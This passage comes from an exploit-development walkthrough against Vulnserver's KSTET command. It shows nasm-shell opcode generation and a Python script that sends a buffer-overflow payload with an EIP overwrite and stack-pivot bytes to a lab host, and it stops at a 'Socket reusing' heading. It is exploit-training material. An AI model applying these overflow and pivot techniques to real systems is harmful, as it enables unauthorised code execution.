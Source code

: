 Lets create the opcode value to drift back to EAX register using nasm-shell,

On EAX our ```KSTET``` value takes 6 bytes and lets other bytes as NOPs

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ /usr/bin/msf-nasm_shell
nasm > add eax,0x10
00000000  83C010            add eax,byte +0x10
nasm > jmp eax
00000000  FFE0              jmp eax
```

Adding this opcode in our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat stack-pivot.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"\x90"*70
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# stack pivot
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xcc" # break point to analyse
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ python3 stack-pivot.py
```

After crashing our program, beyond EIP we can see our ```jmp eax```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/kstet-1-sp1.png">
</div>

Proceeding with step intos, we can see that we have been redirected into the buffer data

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/kstet-1-sp2.png">
</div>

So we can successfully land into buffer data by stack pivoting

## Socket reusing
